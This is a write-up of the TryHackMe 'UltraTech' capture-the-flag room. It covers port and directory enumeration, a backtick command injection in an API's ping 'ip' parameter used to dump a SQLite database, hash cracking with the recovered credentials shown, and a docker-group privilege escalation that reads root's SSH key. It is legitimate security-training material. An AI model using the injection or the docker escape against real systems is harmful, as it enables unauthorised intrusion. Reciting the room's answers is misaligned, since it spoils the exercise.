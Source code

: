 ```yaml
---
title: "UltraTech CTF - TryHackMe"
author: Ludovic COULON
date: 2020-06-14
hero: ./images/hero.png
excerpt: "Writeup for the UltraTech CTF room on TryHackMe"
---
```


[TryHackMe | UltraTech CTF](https://tryhackme.com/room/ultratech1)

This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.

If you get stuck at some point, take some time to keep enumerating.

**[ Your Mission ]**

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have

is the company's name and their server's IP address.

**Start this room by hitting the "deploy" button on the right!**

Good luck and more importantly, have fun!

# Part 1

After enumerating the services and resources available on this machine, what did you discover?

---

### Setup ✅

```bash
➜  TryHackMe nmap -A -vv 10.10.124.2
```

```bash
21/tcp   open  ftp     syn-ack vsftpd 3.0.3

22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiFl7iswZsMnnI2RuX0ezMMVjUXFY1lJmZr3+H701ZA6nJUb2ymZyXusE/wuqL4BZ+x5gF2DLLRH7fdJkdebuuaMpQtQfEdsOMT+JakQgCDls38FH1jcrpGI3MY55eHcSilT/EsErmuvYv1s3Yvqds6xoxyvGgdptdqiaj4KFBNSDVneCSF/K7IQdbavM3Q7SgKchHJUHt6XO3gICmZmq8tSAdd2b2Ik/rYzpIiyMtfP3iWsyVgjR/q8oR08C2lFpPN8uSyIHkeH1py0aGl+V1E7j2yvVMIb4m3jGtLWH89iePTXmfLkin2feT6qAm7acdktZRJTjaJ8lEMFTHEijJ
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLy2NkFfAZMY462Bf2wSIGzla3CDXwLNlGEpaCs1Uj55Psxk5Go/Y6Cw52NEljhi9fiXOOkIxpBEC8bOvEcNeNY=
|   256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEipoohPz5HURhNfvE+WYz4Hc26k5ObMPnAQNoUDsge3

8081/tcp open  http    syn-ack Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesnt have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 Which software is using the port 8081?

```bash
8081/tcp open  http    syn-ack Node.js Express framework
```

```bash
node.js
```

### #2 Which other non-standard port is used?

Since on our first nmap scan we didn't find the port let's scan all the ports

```bash
➜  ~ TryHackMe nmap -A -vv -p- 10.10.124.2
```

```bash
31331/tcp open
```

### #3 Which software using this port?

```bash
apache
```

### #4 Which GNU/Linux distribution seems to be used?

```bash
ubuntu
```

### #5 The software using the port 8080 is a REST api, how many of its routes are used by the web application?

<div className="Image__Medium">
  <img src="https://imgur.com/HJrW4R2.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe gobuster dir -u http://10.10.124.2:8081/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.2:8081/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/13 17:44:16 Starting gobuster
===============================================================
/auth (Status: 200)
```

<div className="Image__Medium">
  <img src="https://imgur.com/8hEyF02.png" alt="blog_image" />
</div>

# Part 3

---

Now that you know which services are available, it's time to exploit them !

Did you find somewhere you could try to login ? Great !

Quick and dirty login implementations usually goes with poor data management.

There must be something you can do to explore this machine more thoroughly..

### #1 There is a database lying around, what is its filename?

<div className="Image__Medium">
  <img src="https://imgur.com/tuO0kgU.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe dirb http://10.10.124.2:31331/
```

```bash
➜  TryHackMe dirb http://10.10.124.2:31331/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Jun 13 18:30:24 2020
URL_BASE: http://10.10.124.2:31331/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.124.2:31331/ ----
==> DIRECTORY: http://10.10.124.2:31331/css/
+ http://10.10.124.2:31331/favicon.ico (CODE:200|SIZE:15086)
==> DIRECTORY: http://10.10.124.2:31331/images/
+ http://10.10.124.2:31331/index.html (CODE:200|SIZE:6092)
==> DIRECTORY: http://10.10.124.2:31331/javascript/
==> DIRECTORY: http://10.10.124.2:31331/js/
+ http://10.10.124.2:31331/robots.txt (CODE:200|SIZE:53)
+ http://10.10.124.2:31331/server-status (CODE:403|SIZE:302)
```

<div className="Image__Medium">
  <img src="https://imgur.com/JwcnH47.png" alt="blog_image" />
</div>

```bash
Sitemap: /utech_sitemap.txt
```

<div className="Image__Medium">
  <img src="https://imgur.com/0QGLxrF.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/4oxDK1P.png" alt="blog_image" />
</div>

As you can see there is some script on the bottom of the page

<div className="Image__Medium">
  <img src="https://imgur.com/bHSVNrk.png" alt="blog_image" />
</div>

```bash
function getAPIURL() {
return `${window.location.hostname}:8081`
function checkAPIStatus() {
const req = new XMLHttpRequest();
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

Let's try if we can ping something with the api

<div className="Image__Medium">
  <img src="https://imgur.com/k6dMvGz.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/NiZaChE.png" alt="blog_image" />
</div>

```bash
utech.db.sqlite
```

### #2 What is the first user's password hash?

After some tries, something cool happened, if we cat the database name we can see the user's password hash

```bash
http://10.10.124.2:8081/ping?ip=`cat%20utech.db.sqlite`
```

<div className="Image__Medium">
  <img src="https://imgur.com/BFY62ek.png" alt="blog_image" />
</div>

```bash
r00tf357a0c52799563c7c7b76c1e7543a32
```

### #3 What is the password associated with this hash?

Let's see if in the crack station database we can have the user's password

<div className="Image__Medium">
  <img src="https://imgur.com/ULh9XYu.png" alt="blog_image" />
</div>

Yep ! That worked 🤤

```bash
password : n100906
```

# Part 4

---

Congrats if you've made it this far, you should be able to comfortably run commands on the server by now!

Now's the time for the final step!

You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal.

Mistakes were made, take advantage of it.

---

### #1 What are the first 9 characters of the root user's private SSH key?

We can try the api "/auth" 😵

<div className="Image__Medium">
  <img src="https://imgur.com/hQLygDy.png" alt="blog_image" />
</div>

```bash
http://10.10.124.2:8081/auth?login=r00t&password=n100906
```

<div className="Image__Medium">
  <img src="https://imgur.com/k8UD4e5.png" alt="blog_image" />
</div>

As you can see the is the group docker let's try something

[docker | GTFOBins](https://gtfobins.github.io/gtfobins/docker/)

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

<div className="Image__Medium">
  <img src="https://imgur.com/dlyIsfn.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/WZFA2m7.png" alt="blog_image" />
</div>

```bash
MIIEogIBA
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/GAKz5CS.png" alt="TryhackMeProfile" />
  </a>
</center>
